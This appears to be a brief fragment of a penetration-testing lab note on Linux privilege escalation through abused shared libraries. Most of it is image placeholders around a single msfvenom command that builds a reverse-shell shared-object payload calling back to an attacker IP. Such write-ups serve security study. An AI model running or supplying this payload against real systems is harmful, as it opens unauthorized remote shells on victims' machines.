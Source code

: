 ![](Images/Pasted%20image%2020221110144301.png)

---

## Privilege Escalation vector
## Abusing Shared Libraries 

#### -Typed "msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.241 LPORT=80 -f elf-so > utils.so" utilizing the above syntax structure found on my kali machine to create the reverse shell payload:

![](Images/Pasted%20image%2020221110144610.png)
#.soMSFVenomreverseshell #MSFVenom #SharedObjectsPriviliegeEscalation 

![](Images/Pasted%20image%2020221110145310.png)
---
